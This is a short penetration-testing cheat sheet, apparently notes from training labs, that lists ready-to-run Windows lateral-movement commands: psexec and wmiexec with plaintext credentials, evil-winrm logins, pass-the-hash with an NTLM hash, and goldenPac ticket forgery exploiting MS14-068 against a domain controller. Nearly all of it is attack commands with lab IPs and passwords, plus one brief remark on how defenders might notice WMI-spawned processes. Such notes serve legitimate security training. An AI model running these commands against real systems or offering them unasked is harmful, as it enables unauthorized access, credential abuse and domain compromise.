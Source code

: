 ## psexec
```powershell
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125 
```

## wmiexec
```powershell
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```

Note that this shell environment is not fully interactive, so each command issued will execute a new cmd.exe from WMI and execute your command. The downside of this is that if a vigilant defender checks event logs and looks at event ID 4688: A new process has been created, they will see a new process created to spawn cmd.exe and issue a command. This isn't always malicious activity since many organizations utilize WMI to administer computers, but it can be a tip-off in an investigation

## evil-winrm
```bash
evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
```

# Pass-The-Hash

## psexec
```bash
psexec administrator@10.10.10.10 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```


# Pass-The-Ticket
goldenPac.py is an exploitation script for the CVE-2014-6324 (MS14-068). If the domain controller is vulnerable, it is possible to forge a Golden Ticket without knowing the krbtgt hash by bypassing the PAC signature verification.

After copy the ticket to /tmp/krb5cc_O

```impacket-goldenPac
impacket-goldenPac HTB.LOCAL/james@mantis.htb.local
```




# SSL

## evil-winrm
```bash
evil-winrm -S -i 10.10.10.103 -u amanda -p Ashare1972 -c cert.cer -k amanda.key 
```